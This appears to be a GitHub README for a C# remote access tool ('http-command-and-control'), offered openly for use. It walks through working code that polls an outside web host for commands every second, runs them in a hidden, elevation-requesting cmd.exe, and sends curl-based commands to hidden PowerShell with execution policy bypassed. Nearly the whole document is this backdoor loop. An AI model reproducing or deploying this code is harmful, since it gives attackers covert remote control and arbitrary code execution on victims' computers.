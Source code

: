 # http-command-and-control Remote Access Tool (RAT) using c# 

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
  
                          new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");<br>
<br><br><br>
<b>Run command in device.</b>
  
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br><br><br>
  
<b>Lets wait for 1 second</b><br>
                          Thread.Sleep(1000);<br>
                            
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>

  
      while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://ustaad-mailer.000webhostapp.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
